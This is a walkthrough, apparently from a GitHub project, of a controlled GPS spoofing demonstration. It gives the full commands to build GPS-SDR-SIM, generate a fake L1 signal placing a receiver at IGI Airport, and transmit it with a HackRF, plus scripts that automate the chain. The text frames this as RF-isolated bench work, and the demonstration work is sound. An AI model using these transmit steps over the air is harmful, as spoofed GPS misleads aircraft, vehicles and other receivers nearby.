






# Methodology — Detailed Walkthrough

> This document reproduces, step by step, the controlled GPS spoofing demonstration summarized in
> the [main README](../README.md). **Everything here assumes an RF‑isolated bench** — a wired or
> shielded path from the SDR into a dedicated receiver under test, with no radiating antenna.
> Read [../DISCLAIMER.md](../DISCLAIMER.md) first.

## 0. Environment

The demonstration was run on **DragonOS**, a Linux distribution that ships with SDR drivers and
tooling (HackRF host tools, GNU Radio, etc.) preinstalled. Any Linux with `gcc`, `git`, `gzip`,
`curl`, and the HackRF host utilities will work.

Verify the HackRF is present before you begin:

```bash
lsusb        # expect: "Great Scott Gadgets HackRF One"
hackrf_info  # prints serial, board ID, firmware version
```


## 1. Build GPS‑SDR‑SIM

[GPS‑SDR‑SIM](https://github.com/osqzss/gps-sdr-sim) generates a GPS L1 C/A baseband signal from
a broadcast ephemeris file and a chosen location.

```bash
git clone https://github.com/osqzss/gps-sdr-sim.git
cd gps-sdr-sim
gcc gpssim.c -lm -O3 -o gps-sdr-sim
```

`-lm` links the math library; `-O3` optimizes (signal generation is CPU‑bound).


## 2. Obtain Broadcast Ephemeris (RINEX BRDC)

### 2.1 What the ephemeris is

GPS satellites broadcast a **navigation message** describing each satellite's orbit (Keplerian
elements), clock corrections, and ionospheric parameters. NASA aggregates these daily as
**RINEX navigation files** ("brdc" = broadcast). GPS‑SDR‑SIM uses them to place the simulated
satellites correctly so the waveform is structurally valid.

### 2.2 Download from NASA CDDIS

1. Create a free account and sign in to **NASA Earthdata**: <https://urs.earthdata.nasa.gov/login>
2. Browse the CDDIS GNSS daily archive:
   `https://cddis.nasa.gov/archive/gnss/data/daily/<year>/brdc/`

The archive is organized `gnss → data → daily → <year> → brdc`:

| Step | Screenshot |
|---|---|
| CDDIS archive root |  |
| `…/gnss/` |  |
| `…/gnss/data/` |  |
| `…/daily/` (by year) |  |
| `…/daily/2025/` |  |
| `…/2025/brdc/` → download |  |

The file used here was **`brdc3190.25n.gz`** (24.16 KB) — day‑of‑year **319** of **2025**, the
GPS navigation (`n`) file.

### 2.3 Decompress

```bash
gzip -d brdc3190.25n.gz    # -> brdc3190.25n
```

The decompressed RINEX file is plain text: a header (RINEX version, ionosphere `ION ALPHA/BETA`,
leap seconds) followed by per‑satellite ephemeris records.


> A copy of this file is included at [`../data/ephemeris/brdc3190.25n`](../data/ephemeris/).

## 3. Generate the Spoofed Signal

Create 8‑bit signed I/Q samples for the target location. **HackRF requires 8‑bit I/Q.**

```bash
./gps-sdr-sim -e brdc3190.25n -l 28.556276,77.100662,100 -b 8
```

| Flag | Value | Meaning |
|---|---|---|
| `-e` | `brdc3190.25n` | Ephemeris / RINEX navigation file |
| `-l` | `28.556276,77.100662,100` | **lat, lon, altitude(m)** — IGI Airport (static mode) |
| `-b` | `8` | 8‑bit signed I/Q (HackRF format) |

GPS‑SDR‑SIM reports the ECEF/LLH it will simulate, the start time derived from the ephemeris,
the duration, and the set of visible satellites, then writes **`gpssim.bin`**.


> The default duration is ~300 s (5 minutes). Use `-d <seconds>` to change it and `-o <file>` to
> rename the output. The automation script [`03_generate_signal.sh`](../scripts/03_generate_signal.sh)
> exposes both.

## 4. Prepare the HackRF One

The HackRF in this project runs **PortaPack / Mayhem** firmware. Firmware can be flashed/updated
from the browser tool at <https://hackrf.app/> (WebUSB).

| Firmware upload in progress | Upload complete |
|---|---|
|  |  |

The hackrf.app console also exposes the device's SD card and a command interface:



## 5. Transmit (RF‑Isolated Bench Only)

```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

| Flag | Value | Meaning |
|---|---|---|
| `-t` | `gpssim.bin` | Transmit from this I/Q file |
| `-f` | `1575420000` | GPS **L1** carrier, 1575.42 MHz |
| `-s` | `2600000` | Sample rate, 2.6 Msps (must match generation) |
| `-a` | `1` | Enable amplifier |
| `-x` | `0` | TX VGA gain (kept minimal on the bench) |

`hackrf_transfer` streams the file in a loop, reporting throughput and average power.

| Streaming I/Q | Run complete (~300 s) |
|---|---|
|  |  |

The PortaPack front panel confirms the carrier at **1 575 420 000 Hz**:


## 6. Result

Inside the isolated setup, the simulated signal is far stronger than the (absent/attenuated)
real GNSS, so the receiver acquires it, locks, and solves for the **spoofed** position — IGI
Airport, New Delhi.


## Reproducing with the scripts

The same sequence is automated under [`../scripts/`](../scripts/):

```bash
cd scripts
./01_setup.sh && ./02_fetch_ephemeris.sh && ./03_generate_signal.sh && ./04_transmit.sh
```

Edit [`../scripts/config.sh`](../scripts/config.sh) to change coordinates, BRDC date, duration,
or RF parameters.
